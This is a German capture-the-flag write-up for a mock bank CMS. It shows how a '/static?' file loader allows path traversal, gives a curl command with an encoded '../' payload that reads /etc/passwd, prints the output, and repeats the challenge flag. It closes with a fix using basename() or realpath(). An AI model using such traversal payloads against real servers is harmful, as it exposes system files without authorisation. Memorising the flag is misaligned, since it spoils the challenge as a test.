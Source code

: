 # bankdirect upupair

## Up Up In The Air

Die beliebte Internet-Filiale der `bankdirect DBH` bietet ihren Kund:innen vielfältige Informationen an. Die informativen Seiten der Bank laden zum Stöbern ein und verraten mehr über die Produkte, Filialen, Service-Angebote, Impressum, Datenschutz, Einwilligungen und AGBs.

![bankdirect CTF upupair](screenshots/1.jpg)

Das Content Management System (CMS) ist leider sehr schlecht programmiert und lässt Wünsche offen.

## Hints

Die verschiedenen Seiten geben eine Vielzahl an Informationen aus. Sobald die URL-Struktur näher betrachtet wird, ist ein entscheidender Hinweis zu erkennen:

![bankdirect CTF upupair](screenshots/2.jpg)

## Lösungsvorschlag

Die Challenge erfordert, dass die URLs genau analysiert werden. Sobald verstanden wurde, dass PDF-Downloads über den Seitenaufruf `/static?$FILE` erfolgen, können die Parameter der Dateipfade inspiziert werden.
Dies kann man ausnutzen, um vertrauliche Dateien auszugeben.


### Mögliches Vorgehen
1. Per Bruteforce / Ausprobieren URLs testen,
1. Die `index.php` als Datei laden und an den zugrundeliegenden PHP-Code kommen (Aufruf: `/static?index.php`),
1. Begreifen, dass der Pfad url-kodiert[^1] sein muss,
1. Als Datei die /etc/passwd aufrufen.

Beispiel eines erfolgreichen Aufrufs der Datei `/etc/passwd` mit der Flag:
```console
$ curl -s  "http://127.0.0.1/static?..%2F..%2F..%2Fetc%2Fpasswd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
dbh:x:1000:1000:DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}:/home/dbh:/bin/sh
```

Die Flag ist **DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}**

# Fix

_Path Traversal_ ist ein uraltes aber immer noch relevantes Sicherheitsproblem. In unserem Beispiel werden statische PDF-Dateien über eine Loader ausgeliefert, der ein Abholen der Dokumente aus einer Datenbank, Cloud-Filestorage oder anderem Subsystem simuliert. 

In unserem Beispiel könnte die Funktionen wie  [basename()](https://www.php.net/manual/de/function.basename.php) oder [realpath()](https://www.php.net/manual/de/function.realpath.php) genutzt werden, damit übergebene Parameter nur die angeforderte Datei enthält (statt `../../../file.pdf` nur `file.pdf`).

## Flag
```
DBH{dee293c3d4b666030f0e50c2d8d38e2ce2b14837}
```

## Footnotes

[^1]: siehe https://de.wikipedia.org/wiki/URL-Encoding
